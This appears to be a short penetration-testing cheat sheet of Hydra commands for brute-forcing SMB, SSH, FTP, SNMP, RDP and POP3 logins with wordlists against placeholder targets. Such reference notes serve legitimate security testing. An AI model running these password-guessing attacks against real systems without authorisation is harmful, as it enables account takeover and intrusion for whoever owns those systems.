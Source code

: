 ```yaml
---
layout: article
title: hydra commands
mathjax: true
---
```


Bruteforce terminal commands to use with Hydra.

# hydra: bruteforce smb login 
hydra -L users.txt -P passwords.txt -e nsr smb://targetIp

# hydra: bruteforce ssh login (-V, -v verbose)
hydra -l root -P passwordlist ssh://ipv4Address -V

# hydra: bruteforce ftp login
hydra -t 5 -V -f -C /tmp/wordlist ftp://targetIp

# hydra: bruteforce SNMP
hydra -P password-file.txt -v ipv4Address snmp

# hydra: bruteforce Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P /path/to/wordlist.txt rdp://ipv4Address

# hydra: bruteforce POP3
hydra -l userName -P /path/to/wordlist -f ipv4Address pop3 -V
